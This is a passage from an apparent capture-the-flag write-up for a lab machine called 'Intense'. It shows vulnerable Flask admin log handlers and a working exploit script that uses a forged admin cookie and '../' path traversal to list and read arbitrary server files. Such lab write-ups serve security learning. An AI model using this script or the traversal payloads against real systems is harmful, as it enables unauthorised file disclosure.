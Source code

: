 ```python
    if not is_admin(request):
        abort(403)
    logdir = request.form.get("logdir")
    if logdir:
        logdir = admin_list_log(logdir)
        return str(logdir)
    return ''
```

The admin viewing abilities allow you to read files. Interesting. Are `admin_view_log()` and `admin_list_dir()` safe?

```python
def admin_view_log(filename):
    if not path.exists(f"logs/{filename}"):
        return f"Can't find {filename}"
    with open(f"logs/{filename}") as out:
        return out.read()


def admin_list_log(logdir):
    if not path.exists(f"logs/{logdir}"):
        return f"Can't find {logdir}"
    return listdir(logdir)
```

Nope! Simple LFI flaw.

### Scripting the LFI

I made a simple, messy script.

```python
from requests import post

cookies = {'auth': 'dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMQO3VzZXJuYW1lPWFkbWluO3NlY3JldD1mMWZjMTIwMTBjMDk0MDE2ZGVmNzkxZTE0MzVkZGZkY2FlY2NmODI1MGUzNjYzMGMwYmM5MzI4NWMyOTcxMTA1Ow==.Kj3kZb1zkyyn0eUdcAEy/u2k0TZJWvUAIDCmPuLqdNU='}

while True:
    read = input('>>> ')

    cmd, *folder = read.split()

    if cmd == 'ls':
        loc = '../' * 8 + '..' + ''.join(folder)
        r = post('http://intense.htb/admin/log/dir', cookies=cookies, data={'logdir': loc})
        
        files = '\n'.join(eval(r.text))
        print(files)
    else:
        loc = '../' * 8 + '..' + read
        r = post('http://intense.htb/admin/log/view', cookies=cookies, data={'logfile': loc})

        print(r.text.rstrip())
```
